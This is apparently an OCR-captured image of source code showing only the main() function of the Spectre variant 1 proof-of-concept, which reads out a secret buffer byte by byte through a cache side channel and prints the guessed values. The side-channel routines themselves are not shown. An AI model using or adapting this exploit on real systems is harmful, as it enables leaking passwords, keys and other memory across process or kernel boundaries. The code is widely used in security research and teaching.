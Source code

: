 ```
int main(int argc, const char **argv) {
	size_t malicious_x=(size_t)(secret-(char*)array1); 
	int i, score[2], len=40; 
	uint8_t value[2];

	/* default for malicious_x */

	for (i = 0; i < sizeof(array2); i++) array2[i] = 1; /* write to array2 so in RAM not copy-on-write zero pages */ 
	if (argc == 3) { 
		sscanf(argv[1], "%p", (void**)(&malicious_x)); 
		malicious_x -= (size_t)array1; /* Convert input value into a pointer */ 
		sscanf(argv[2], "%d", &len); 
	}

	printf("Reading %d bytes:\n", len); 

	while (--len >= 0) {
		printf("Reading at malicious_x = %p... ", (void*)malicious_x); 
		readMemoryByte(malicious_x++, value, score);
		printf("%s: ", (score[0] >= 2*score[1] ? "Success" : "Unclear")); 
		printf("0x%02X='%c' score=%d ", value[0],(value[0] > 31 && value[0] < 127 ? value[0] : '?'), score[0]); 
		if (score[1] > 0)
			printf("(second best: 0x%02X score=%d)", value[1], score[1]); printf("\n");
	} 
	return (0);
}
```